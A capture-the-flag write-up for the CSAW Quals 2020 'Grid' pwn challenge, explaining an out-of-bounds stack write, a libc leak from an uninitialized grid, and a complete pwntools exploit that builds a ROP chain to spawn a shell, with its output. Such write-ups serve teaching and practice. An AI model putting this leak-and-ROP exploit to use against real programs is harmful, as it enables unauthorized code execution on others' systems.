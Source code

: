 ```yaml
---
title: Grid - CSAW Quals 2020
date: 2020-09-18 12:05:10
author: d4rk_kn1gh7
author_url: https://twitter.com/_d4rkkn1gh7
categories:
  - Pwn
tags:
  - Exploitation
  - Linux
  - CSAW Quals
---
```


**tl;dr**
+ Out-of bounds index write allows byte-by-byte overwrite of return address

<!--more-->

**Challenge Points:** 150
**Solves:** 123
**Solved by:** [d4rk_kn1gh7](https://twitter.com/_d4rkkn1gh7), [Cyb0rG](https://twitter.com/_Cyb0rG)

## Challenge description

***After millions of bugs, all my homies hate C.***

We are given a C++ binary, along with libc and libstdc files.

## Initial analysis

The mitigations enabled on the binary were as follows:

```text
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

On reversing the binary, we found out that it had a 10x10 grid, and the binary had two main functions: one to insert a character into the grid, and one to display the grid. A loop was also present, which allowed us to insert/display values 100 times.

```text
shape> a
loc> 0 0
placing a at 0, 0
shape> d
Displaying
a!`�!
`O�%}
��B��#

-��#��
%}��f��
#s�%}�
>Z��#
D�
%}�H�%}
```

## Vulnerability

After reversing, it was pretty clear that there was no index check on the `insert` function, allowing us to insert at any location. Also the `display` function copied our current grid onto the stack, thus allowing us to potentially overwrite any value on the stack.

```cpp
for ( x = 0; x <= 99; ++x )
{
    std::operator<<<std::char_traits<char>>(&std::cout, "shape> ");
    std::operator>><char,std::char_traits<char>>(&std::cin, &v10);
    if ( v10 == 100 )
    {
        sub_400A57();
        for ( i = a1; i; i = *(_QWORD *)(i + 8) ) //Display function
            *((_BYTE *)&savedregs + 10 * *(unsigned __int8 *)(i + 1) + *(unsigned __int8 *)(i + 2) - 112) = *(_BYTE *)i;
        std::operator<<<std::char_traits<char>>(&std::cout, "Displaying\n");
        for ( j = 0; j <= 9; ++j )
        {
            for ( k = 0; k <= 9; ++k )
                std::operator<<<std::char_traits<char>>(&std::cout, (unsigned int)*((char *)&savedregs + 10 * j + k - 112));
            std::operator<<<std::char_traits<char>>(&std::cout, "\n");
        }
    }
    else //Insert function
    {
        std::operator<<<std::char_traits<char>>(&std::cout, "loc> ");
        v1 = std::istream::operator>>(&std::cin, &v11);
        std::istream::operator>>(v1, &v12);
        v2 = std::operator<<<std::char_traits<char>>(&std::cout, "placing ");
        v3 = std::operator<<<std::char_traits<char>>(v2, (unsigned int)v10);
        v4 = std::operator<<<std::char_traits<char>>(v3, " at ");
        v5 = std::ostream::operator<<(v4, v11);
        v6 = std::operator<<<std::char_traits<char>>(v5, ", ");
        v7 = std::ostream::operator<<(v6, v12);
        std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
        v8 = operator new(0x10uLL);
        sub_400E1E(v8, (unsigned int)v10, (unsigned __int8)v11, (unsigned __int8)v12);
        v16 = v8;
        sub_400E62(v14, v8);
        v14 = v16;
    }
}
```

From this, it was evident that we could write one character at a time onto an arbitrary location on the stack, thus allowing us to potentially overwrite both the return address, and the loop checker variable. This also allows us to bypass the canary, and directly overwrite the return address.

On further examination of the stack during the display function, it was obvious that the grid was not initialized, so displaying the grid allowed us to leak addresses off the stack. 

Great! We got a libc leak, all that was left was to calculate the grid offsets (as it was 10x10, and addresses are 8 bytes long), and our exploit was complete!

## Exploitation

The plan for the exploit was as follows:

+ Leak libc addresses off the stack using `display`
+ Overwrite the return address byte-by-byte with our ropchain (to call `system("\bin\sh")`)
+ Overwrite the checking variable with a value greater than 100 (0x64), to exit the loop
+ Use `display` to push the new grid onto the stack, completing the overwrite

```python
from pwn import *

env={'LD_PRELOAD' : './libc.so.6 ./libstdc.so.6.0.25'}
#r = process("./grid", env = env)
r=remote("pwn.chal.csaw.io",5013)

reu = lambda a : r.recvuntil(a)
sla = lambda a,b : r.sendlineafter(a,b)
sl = lambda a : r.sendline(a)
rel = lambda : r.recvline()
sa = lambda a,b : r.sendafter(a,b)
re = lambda a : r.recv(a)

def write(data1, data2):
    sla("shape> ",data1)
    sla("loc> ",data2)

def display():
    sla("shape> ","d")
    s = ""
    rel()
    for i in range(10):
        s+=rel().replace("\n","")
    return s

if __name__ == "__main__":
    leaks = []
    out = display()
    for i in range(0,len(out)-8,8):
        leaks.append(u64(out[i:i+8]))
    leak = leaks[3]
    log.info("Leak: " + hex(leak))
    libc_base = leak - 0x4ec5da
    log.info("Libc base: " + hex(libc_base))
    one_gadget = libc_base + 0x10a45c
    system = libc_base + 0x4f4e0
    log.info("System: " + hex(system))
    binsh = libc_base + 0x1b40fa
    pop_rdi = 0x400ee3
    pop_r1415 = 0x400ee0

    write(chr(int("0x"+hex(pop_rdi)[-2:],16)),"20 0")
    write(chr(int("0x"+hex(pop_rdi)[-4:-2],16)),"20 1")
    write(chr(int("0x"+hex(pop_rdi)[-6:-4],16)),"20 2")

    write(chr(int("0x"+hex(binsh)[-2:],16)),"20 8")
    write(chr(int("0x"+hex(binsh)[-4:-2],16)),"20 9")
    write(chr(int("0x"+hex(binsh)[-6:-4],16)),"21 0")
    write(chr(int("0x"+hex(binsh)[-8:-6],16)),"21 1")
    write(chr(int("0x"+hex(binsh)[-10:-8],16)),"21 2")
    write(chr(int("0x"+hex(binsh)[-12:-10],16)),"21 3")

    write(chr(int("0x"+hex(pop_r1415)[-2:],16)),"21 6")
    write(chr(int("0x"+hex(pop_r1415)[-4:-2],16)),"21 7")
    write(chr(int("0x"+hex(pop_r1415)[-6:-4],16)),"21 8")
    write(chr(int("0x00",16)),"21 9")
    write(chr(int("0x00",16)),"22 0")
    write(chr(int("0x00",16)),"22 1")

    write(chr(int("0x"+hex(system)[-2:],16)),"24 0")
    write(chr(int("0x"+hex(system)[-4:-2],16)),"24 1")
    write(chr(int("0x"+hex(system)[-6:-4],16)),"24 2")
    write(chr(int("0x"+hex(system)[-8:-6],16)),"24 3")
    write(chr(int("0x"+hex(system)[-10:-8],16)),"24 4")
    write(chr(int("0x"+hex(system)[-12:-10],16)),"24 5")

    write("z","14 1")
    display()
    log.info("Write complete!")
    r.interactive()
```

## Flag

Running this exploit gives us the flag!

```console
d4rk_kn1gh7 @ BatMobile  python grid.py
[+] Opening connection to pwn.chal.csaw.io on port 5013: Done
[*] Leak: 0x7f40890395da
[*] Libc base: 0x7f4088b4d000
[*] System: 0x7f4088b9c4e0
[*] Write complete!
[*] Switching to interactive mode
$ ls
flag.txt
grid
$ cat flag.txt
flag{but_4ll_l4ngu4g3s_R_C:(}
```